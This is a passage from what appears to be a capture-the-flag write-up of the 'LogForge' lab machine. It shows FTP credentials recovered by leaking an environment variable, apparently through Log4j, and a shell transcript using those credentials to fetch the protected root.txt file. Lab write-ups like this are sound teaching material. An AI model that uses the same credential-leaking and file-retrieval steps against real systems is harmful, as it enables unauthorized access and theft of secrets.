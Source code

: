 I'll repeat the steps above except  replacing "ftp\_user" for "ftp\_password"

And I have the password now
![Logforge](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/logforge/7.png)

So our ftp creds are `ippsec:log4j_env_leakage`

We do not have permission to download root.txt but if we do `lcd /tmp` we can download it!

```bash
tomcat@LogForge:/tmp$ ftp localhost
ftp localhost
Connected to localhost.
220 Welcome to the FTP-Server
Name (localhost:tomcat): ippsec
ippsec
331 User name okay, need password
Password:log4j_env_leakage

230-Welcome to HKUST
230 User logged in successfully
Remote system type is FTP.
ftp> lcd /tmp
lcd /tmp
Local directory now /tmp
ftp> get root.txt
get root.txt
local: root.txt remote: root.txt
200 Command OK
150 Opening ASCII mode data connection for requested file root.txt
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 File transfer successful. Closing data connection.
33 bytes received in 0.00 secs (503.5400 kB/s)
ftp> 

```
